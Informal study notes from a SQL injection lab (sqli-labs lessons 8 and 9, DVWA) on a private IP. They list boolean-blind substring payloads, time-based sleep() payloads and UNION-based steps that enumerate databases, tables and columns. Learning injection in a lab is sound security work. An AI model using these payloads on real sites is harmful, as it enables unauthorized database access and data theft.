 and substring(database(),1,1)="a"

http://192.168.1.103/sqli-labs-master/Less-8/?id=1'    and substring(database(),1,1)="s"  --   {true vale that menas first charcater of first databse is s}


http://192.168.1.103/sqli-labs-master/Less-8/?id=1'    and substring(database(),2,1)="e"  --   {true second character of first database is e}

blind time based sqli 

' and sleep(10) --  
" and sleep(10) --  

') and sleep(10) --  

how to extract database for blind time based sqli 

' and sleep(10) and 1=1 --  

i gave http://192.168.1.103/sqli-labs-master/Less-9/?id=1'   and sleep(10) and database()="security" --   its sleeping thats means 

http://192.168.1.103/sqli-labs-master/Less-9/?id=1'   and sleep(10) and database()="xyz" --   {its not sleeping for 10 sec }
-----------------------------------------

Exploitation of GET Based sqli 

1. Database List - 

hackbar->union->database->group_concat 

information_schema
challenges
dvwa
metasploit
mysql
owasp10
security
tikiwiki
tikiwiki195

2.find tables of a database -dvwa 

hackbar->union->tables->group_concat 

guestbook
users

3. find columns of a table - guestbook 

comment_id
comment
name


4. data of that columns 

name,comment 
